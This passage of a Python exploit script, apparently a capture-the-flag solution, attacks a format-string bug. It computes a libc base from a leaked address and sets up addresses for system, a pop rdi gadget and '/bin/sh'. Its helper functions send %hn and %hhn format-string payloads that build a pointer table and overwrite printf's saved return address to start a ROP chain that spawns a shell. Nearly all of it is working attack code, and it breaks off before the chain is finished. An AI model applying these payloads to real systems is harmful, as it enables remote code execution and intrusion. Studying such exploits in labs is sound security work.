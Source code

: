 ```python3
stack = int(stack_leak, 16)
libc_leak = int(libc_leak, 16)
                                                                                                                                                                                             
libc_base = libc_leak - 188368
print(f"LIBC base at: {hex(libc_base)}")
print(f"main at: {hex(main)}")
print(f"stack at: {hex(stack)}")

# helper stack addr to create pointer table func
def ptable_helper_addr(dp_offset, target, ret):
    payload = "%c" * (dp_offset - 2)
    payload += f"%{target - (dp_offset - 2)}c" + "%hn"
    # overwrite printf's ret again,
    payload += f"%{ret}c%47$hhn"
    p.sendline(payload.encode('utf-8'))
    print("creating helper..")

# create pointer table func
def ptable(offset, target, ret):
    payload = f"%{target}c%{offset}" + "$hn"
    # overwrite printf's ret again,
    payload += f"%{ret}c%47$hhn"
    p.sendline(payload.encode('utf-8'))


# reads upto 4 bytes into crafted pointers func
def write4(where, what, ret, amount):
    payload = f"%{what}c%{where}" + f"${amount}"
    # printf ret
    payload += f"%{ret}c%47$hhn"
    p.sendline(payload)

system = libc_base + 346848
pop_rdi = libc_base + 0x000000000002e6c5 
binsh = libc_base + 1948858
ret = libc_base + 0x000000000002d9b9

print(f"system at: {hex(system)}")
print(f"pop_rdi at: {hex(pop_rdi)}")
print(f"binsh at: {hex(binsh)}")

# create pointer table (8x4 bytes)
# first 8 bytes

where = int(0xe398)
pt_where = int(0xe4e0)

# printf saved rip
pt_rsp = 80
rsp = 160-8

ptable_helper_addr(33, pt_where, pt_rsp)
ptable(49, where, rsp)

ptable_helper_addr(33, pt_where+8, pt_rsp-8)
ptable(49, where+2, rsp-2)

ptable_helper_addr(33, pt_where+16, pt_rsp-16)
ptable(49, where+4, rsp-4)

# second 8 bytes
ptable_helper_addr(33, pt_where+24, pt_rsp-24)
ptable(49, where+8, rsp-8)
```
